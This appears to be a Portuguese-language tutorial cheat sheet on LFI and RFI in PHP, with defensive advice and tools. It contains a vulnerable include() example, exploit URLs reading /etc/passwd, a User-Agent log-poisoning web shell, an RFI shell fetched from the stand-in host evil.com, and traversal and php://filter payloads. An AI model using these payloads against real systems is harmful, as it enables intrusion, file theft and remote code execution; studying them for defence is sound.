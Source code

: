 # LFI e RFI

📂 LFI & RFI — O que são?

Tipo	Nome	Significado	Acesso a arquivos
LFI	Local File Inclusion	Inclusão de arquivo local	No próprio servidor
RFI	Remote File Inclusion	Inclusão de arquivo remoto (URL)	Servidor externo (remoto)


⸻

🔍 LFI — Local File Inclusion

Ocorre quando uma aplicação carrega um arquivo localmente, baseado em entrada do usuário, sem validação adequada.

🧪 Exemplo vulnerável:

<?php
  $page = $_GET['page'];
  include($page);
?>

🎯 Exploração:

http://target.com/index.php?page=/etc/passwd

💥 Retorna conteúdo do /etc/passwd

🛠️ Outros caminhos úteis para LFI:
	•	/proc/self/environ
	•	/var/log/apache2/access.log (log poisoning)
	•	/proc/self/fd/0

⸻

⚠️ LFI com Execução de Código (log poisoning)

Se o LFI incluir arquivos com conteúdo controlado por você, é possível obter RCE (execução remota de código).

Exemplo:
	1.	Faça uma requisição com código PHP injetado no user-agent:

User-Agent: <?php system($_GET['cmd']); ?>


	2.	Acesse:

http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id



⸻

🌐 RFI — Remote File Inclusion

Acontece quando a aplicação inclui arquivos externos via URL, sem sanitização.

🧪 Exemplo vulnerável:

<?php
  $page = $_GET['page'];
  include($page);
?>

🎯 Exploração:

http://target.com/index.php?page=http://evil.com/shell.txt

📄 shell.txt contém:

<?php system($_GET['cmd']); ?>

💥 Acesso via:

http://target.com/index.php?page=http://evil.com/shell.txt&cmd=whoami


⸻

✅ Como se proteger de LFI e RFI

Boas práticas:
	•	Nunca inclua arquivos com base em entrada do usuário
	•	Valide e sanitize rigorosamente os dados
	•	Use whitelists de arquivos permitidos
	•	Desative allow_url_include no PHP:

allow_url_include = Off



⸻

🛠️ Testes com ferramentas:
	•	Burp Suite (manualmente ou com Intruder)
	•	wfuzz, ffuf (fuzzing para caminhos de arquivos)
	•	liffy (exploração automatizada de LFI)
	•	Commix (se virar RCE)

⸻

🔎 Exemplo de payloads LFI

?page=../../../../etc/passwd
?page=php://filter/convert.base64-encode/resource=index.php
?page=/proc/self/environ
?page=../../../../var/log/apache2/access.log